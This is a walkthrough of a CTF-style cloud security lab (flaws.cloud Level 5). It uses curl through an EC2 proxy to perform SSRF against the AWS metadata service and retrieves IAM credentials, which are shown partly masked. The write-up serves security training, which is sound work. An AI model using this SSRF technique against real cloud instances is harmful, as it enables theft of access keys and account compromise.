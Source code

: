 

---

## Level 5 - SSRF on AWS Metadata Service

!!!help "Objective"

    This EC2 has a simple HTTP only proxy on it. Here are some examples of it's usage:
    ```
    http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/flaws.cloud/
    http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/summitroute.com/blog/feed.xml
    http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/neverssl.com/ 
    ```
    See if you can use this proxy to figure out how to list the contents of the level6 bucket at `level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud` that has a hidden directory in it. 

By leveraging the proxy on the target EC2, we are able to force the server to issue a request to host under our control. This is more-or-less equivalent to a server-side-request-forgery (SSRF) attack.

SSRFs are known to be particularly impactful in cloud environments due to the presence of the internal metadata service (IMDS) running by default on every compute instance (AWS, GCP, Azure, etc.).

This service is generally accessible at a fixed IP address `169.254.169.254`, let's verify that:

```
fog@cloudbreach:~/flaws/level5$ curl http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/hostname
ip-172-31-41-84.us-west-2.compute.internal
```

Most importantly, the IMDS service sometimes allows access to sensitive access keys.

```
fog@cloudbreach:~/flaws/level5$ curl http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws
{
  "Code" : "Success",
  "LastUpdated" : "2022-12-13T07:20:49Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA**************XQ",
  "SecretAccessKey" : "gH5H********************************rjmy",
  "Token" : "IQoJ*****************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************4tuGdtSdxNiGtGsfPrY",
  "Expiration" : "2022-12-13T13:22:40Z"
}
```
